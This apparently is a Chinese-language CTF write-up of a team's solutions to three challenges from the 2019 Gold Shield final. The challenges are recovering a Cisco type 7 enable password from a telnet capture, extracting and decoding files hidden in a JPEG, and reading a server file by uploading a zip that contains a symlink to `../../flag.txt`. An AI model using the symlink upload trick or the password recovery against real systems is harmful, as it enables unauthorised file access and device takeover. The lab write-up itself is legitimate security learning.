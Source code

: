 ```yaml
---
layout: post
title: "2019 金盾決賽"
description: "Gold Shield 2019. \\CSY教我/"
category: articles
tags: [ctf, GoldShield]
comments: false
---
```


# Overviews

108 14屆資安技能金盾獎

Team: `ROH`

Rank: `3`

Score: `?` scoreboard 被關了啦

~~家樂福禮券受害者~~

我們這隊只有解出三題，題目跟通靈沒兩樣，都靠隊友 carry ，這裡就來寫一下 `Game 4` `Game 7` `Game 8`

最後意外的拿到第三，而 CSY 毫無疑問的拿了第一

---

# Writeup

## Game4
#### Misc
### Problem
```
某公司已經成立逾20年,公司累積了不少專利資料 ; 但公司的網路管理者,一直使用未加密協定TELNET連線到網路設備的管理介面 (IP: 10.17.0.10) 。商業問謀小明為了竊取該公司的機密,偷偷側錄了一段網路管理者登錄設備的封包檔,並嘗試破解該公司路由設備。
```

### Hint
```
透過封包解析找出可登入設備的一般使用者帳密,再以cisco Cracker取得ENABLE密碼(Flag即為ENABLE密碼)。
```
[封包檔.pcap](/files/goldshield2019/game4.pcap)

### Solve

![wireshark](https://i.imgur.com/Uicju4I.png)

用 wireshark 打開封包，會看到 running config

其中 `enable password 7 07282E404A434B55464B` 應該就是 enable password 了

碰過 cisco packet tracer 應該都知道這種是 type 7 的加密，在網路上找 `Cisco Type 7 Password Decrypt` 來解

### Flag
```
Gold*2019
```

---

## Game 7
#### Stego
### Problem
```
皮卡丘似乎在尋找一些隱藏的檔案 ,相信只要找到它們並且破解其中的密文。就能得到最後的解答
```

[PikaPika.jpg](/files/goldshield2019/PikaPika.jpg)

### Solve

```
# analysis file with binwalk
$ binwalk PikaPika.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
69769         0x11089         Zip archive data, at least v2.0 to extract, compressed size: 18206, uncompressed size: 18222, name: Gold.zip
88013         0x157CD         Zip archive data, at least v2.0 to extract, compressed size: 194, uncompressed size: 293, name: key.txt
88423         0x15967         End of Zip archive, footer length: 22
```

可以看到裡面有 `Gold.zip` 和 `key.txt`，之後用 binwalk 解開

```
$ binwalk -e PikaPika.jpg
$ tree
.
├── PikaPika.jpg
└── _PikaPika.jpg.extracted
    ├── 11089.zip
    ├── Gold.zip
    └── key.txt
```

key 打開之後貌似是一段歌詞

```
$ cat key.txt
Never give up,
Never lose hope.
Always have faith,
It allows you to cope.
ywdnsl ynrjx bnqq ufxx,
fx ymjd fqbfdx it.
ozxy mfaj ufynjshj,
dtzw iwjfrx bnqq htrj ywzj.
xt uzy ts f xrnqj,
dtz'qq qnaj ymwtzlm dtzw ufns.
pstb ny bnqq ufxx,
fsi xywjslym dtz bnqq lfns
pjd{gwtpjsymjxmnjqi}
```

分析一下把 `gwtpjsymjxmnjqi` -5 就是 key 了 `brokentheshield`

用這把 key 拿去解 gold.zip 會得到一張圖

![flag](/files/goldshield2019/game7flag.jpg)

### Flag

```
HaVe A Good Day!!
```

---

## Game 8
#### Web
### Problem
```
悟毛是個網路言論審查員,今天接獲線民舉報,某網站疑似掌握了元首不可告人的秘密,請在秘密被外洩前幫悟毛找出這個秘密吧。
IP: 10.17.15.246
```
題目主要是一個網站，註解藏了一個上傳點 `/upload`

### Hint
```
link to target
```

經過通靈之後發現應該是用 Linux 建立一個 soft link (symbolic link)，然後打包成一個 zip 傳上去

### Solve

```
$ ln -s ../../flag.txt 123
$ zip 123.zip 123
```

傳上zip檔 flag 就噴出來了

### Flag
```
winniecute
```

---

# 合照
跟主辦單位拿了12萬的板子自嗨了一下 （\\CSY教我/）

![photo](/files/goldshield2019/photo.jpg)

